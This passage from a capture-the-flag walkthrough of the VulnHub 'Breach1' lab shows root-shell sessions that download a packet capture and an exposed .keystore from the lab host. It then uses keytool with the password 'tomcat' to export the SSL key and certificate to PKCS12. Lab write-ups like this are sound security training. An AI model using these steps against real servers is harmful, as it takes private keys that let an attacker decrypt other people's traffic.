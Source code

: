 
## Exporting SSL certificate/Key from Keystore
1. Did some research
	- Searched "How to extract ssl cert from keystore"
	- https://stackoverflow.com/questions/23087537/how-to-export-key-and-crt-from-keystore/23087752
		```
		# Executed it, output says execute the following command instead which is industry standard:
		keytool -exportcert -keystore [keystore] -alias [alias] -file [cert_file]
		
		# Industry standard command:
		keytool -importkeystore -srckeystore [keystore] -destkeystore [target-keystore] -deststoretype PKCS12
		```
2. Download `_SSL_test_phase1.pcap`
	```
	┌──(root💀kali)-[~/vulnHub/Breach1/192.168.110.140/loot/http]
	└─# wget http://192.168.110.140/impresscms/_SSL_test_phase1.pcap
	--2022-01-20 03:00:10--  http://192.168.110.140/impresscms/_SSL_test_phase1.pcap
	Connecting to 192.168.110.140:80... connected.
	HTTP request sent, awaiting response... 200 OK
	Length: 41412 (40K) [application/vnd.tcpdump.pcap]
	Saving to: ‘_SSL_test_phase1.pcap’
	_SSL_test_phase1.pcap         100%[==============================================>]  40.44K  --.-KB/s    in 0s      
	2022-01-20 03:00:10 (225 MB/s) - ‘_SSL_test_phase1.pcap’ saved [41412/41412]
	```
3. Download `.keystore`
	```
	┌──(root💀kali)-[~/vulnHub/Breach1/192.168.110.140/loot/http]
	└─# wget 192.168.110.140/.keystore -O keystore
	--2022-01-20 03:01:57--  http://192.168.110.140/.keystore
	Connecting to 192.168.110.140:80... connected.
	HTTP request sent, awaiting response... 200 OK
	Length: 2245 (2.2K)
	Saving to: ‘keystore’
	keystore                      100%[==============================================>]   2.19K  --.-KB/s    in 0s      
	2022-01-20 03:01:57 (352 MB/s) - ‘keystore’ saved [2245/2245]
	```
4. Export SSL Certificate from keystore
	```
	┌──(root💀kali)-[~/vulnHub/Breach1/192.168.110.140/loot/http]
	└─# keytool -importkeystore -srckeystore keystore -destkeystore ssl_cert -deststoretype PKCS12
	Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
	Importing keystore keystore to ssl_cert...
	Enter destination keystore password:  tomcat
	Re-enter new password: tomcat
	Enter source keystore password:  tomcat
	Entry for alias tomcat successfully imported.
	Import command completed:  1 entries successfully imported, 0 entries failed or cancelled
	```
